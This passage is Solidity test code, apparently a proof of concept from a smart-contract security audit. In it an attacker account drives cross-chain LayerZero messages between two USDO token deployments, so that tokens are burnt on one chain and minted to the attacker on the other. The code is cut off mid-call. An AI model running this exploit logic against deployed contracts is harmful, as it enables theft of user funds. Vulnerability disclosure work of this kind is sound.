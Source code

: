 ```solidity
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")), // address here doesn't matter
            amountLD: 0,
            minAmountLD: 0,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToB = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToB = LZSendParam({
            sendParam: sendParamAToB,
            fee: feeAToB,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        vm.startPrank(makeAddr("attacker"));
        aUsdo.sendPacket(lzSendParamAToB, toeComposeMsg);

        // EXECUTE ATTACK

        // Execute first lzReceive() --> receive message in chain B
    
        vm.startPrank(endpoints[bEid]);
        UsdoReceiver(address(bUsdo)).lzReceive(
            Origin({sender: OFTMsgCodec.addressToBytes32(address(aUsdo)), srcEid: aEid, nonce: 0}), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked( // same as _buildOFTMsgAndOptions()
                sendParamAToB.to,
                 index,  // amount (use an initialized 0 variable due to Solidity restrictions)
                OFTMsgCodec.addressToBytes32(makeAddr("attacker")), // initially, the sender for the first A --> B message is the attacker
                toeComposeMsg
            ), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        // Compose message is sent in `lzReceive()`, we need to trigger `lzCompose()`.
        // bUsdo will be burnt from the bUSDO address, and nextMsg will be triggered to mint the burnt amount in chain A, having 
        // the attacker as the receiver
        UsdoReceiver(address(bUsdo)).lzCompose(
            address(bUsdo), 
            OFTMsgCodec.addressToBytes32(address(0)), // guid (not needed for the PoC)
            abi.encodePacked(OFTMsgCodec.addressToBytes32(address(aUsdo)), toeComposeMsg), // message
            address(0), // executor (not used)
            bytes("") // extra data (not used)
        );

        vm.startPrank(endpoints[aEid]);

        // Receive nextMsg in chain A, mint tokens to the attacker
        uint64 tokenAmountSD = usdoHelper.toSD(100 ether, aUsdo.decimalConversionRate());

        UsdoReceiver(address(aUsdo)).lzReceive(
```